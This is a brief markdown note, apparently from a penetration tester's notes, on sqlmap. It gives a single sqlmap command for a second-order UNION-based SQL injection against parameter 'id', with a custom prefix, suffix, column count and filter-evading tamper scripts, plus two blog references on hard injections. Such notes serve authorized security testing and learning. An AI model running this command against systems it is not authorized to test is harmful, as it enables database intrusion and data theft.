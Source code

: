 # sqlmap

TODO :)

```
./sqlmap.py \
--force-ssl \
-r req  \
--second-req=req2 \
-p id \
--level 3 \
--risk 1 \
--union-cols=27 \
--prefix="'" \
--suffix="-- a" \
--test-filter="MySQL UNION query ([RANDNUM])" \
--tamper=unionalltounion,hex2char \
--flush-session
```

### References

- [Sqlmap Tricks for Advanced SQL Injection](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/sqlmap-tricks-for-advanced-sql-injection/)
- [Exploiting difficult SQL injection vulnerabilities using sqlmap: Part 1](http://www.thegreycorner.com/2017/01/exploiting-difficult-sql-injection.html)

